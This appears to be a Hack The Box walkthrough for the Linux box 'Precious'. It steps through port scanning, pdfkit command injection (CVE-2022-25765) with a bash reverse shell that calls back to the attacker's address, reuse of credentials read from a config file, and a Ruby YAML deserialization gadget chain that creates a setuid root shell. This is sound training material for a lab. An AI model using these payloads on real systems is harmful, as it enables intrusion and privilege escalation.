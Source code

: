 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon Phase

### Nmap Full Port + Version Scan
```bash
nmap -p- --min-rate 10000 10.10.11.189
nmap -p 22,80 -sCV 10.10.11.189
```

### Add Host Entry
```bash
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

### [FFUF](HTTP) Subdomain Fuzzing
```bash
ffuf -u http://10.10.11.189 -H "Host: FUZZ.precious.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### Feroxbuster Directory Brute Force
```bash
feroxbuster -u http://precious.htb
```

---

## 🖨️ Exploiting PDF Generation (Command Injection)

### Exiftool Analysis
```bash
exiftool output.pdf
# -> Shows "Generated by pdfkit v0.8.6"
```

### Vulnerability
- `pdfkit v0.8.6` vulnerable to command injection (CVE-2022-25765)

### POC to Leak `id`
```bash
http://10.10.14.6/?name=%20`id`
```

### Reverse Shell (Bash)
```bash
# Listener
nc -lnvp 443

# Payload (submit in URL field of form)
http://10.10.14.6/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"`
```

### Shell Upgrade
```bash
script /dev/null -c bash
# ^Z
stty raw -echo; fg
reset
# Terminal type? screen
```

---

## 👤 Escalating to User `henry`

### Look for Creds in `.bundle`
```bash
cat ~/.bundle/config
# => username: henry, password: Q3c1AqGHtoI0aXAYFH
```

### `su` to Henry
```bash
su - henry
# OR
sshpass -p 'Q3c1AqGHtoI0aXAYFH' ssh henry@precious.htb
```

---

## ⚙️ Privilege Escalation via Unsafe YAML

### Check Sudo Access
```bash
sudo -l
# => (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

### Vulnerable Line
```ruby
YAML.load(File.read("dependencies.yml"))
```

### Create Exploit Payload
```yaml
# dependencies.yml
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
        method_id: :resolve
```

### Run Exploit
```bash
cd /dev/shm
sudo ruby /opt/update_dependencies.rb
```

### Get Root Shell
```bash
/tmp/rootbash -p
id
cat /root/root.txt
```

---

## 🔬 Beyond Root – PDFKit Debug + Local Access Fix

### Problem
- Server fails to fetch internal URLs like `http://127.0.0.1` or `http://precious.htb`.

### Fix
```bash
echo "127.0.0.1 precious.htb" | sudo tee -a /etc/hosts
```
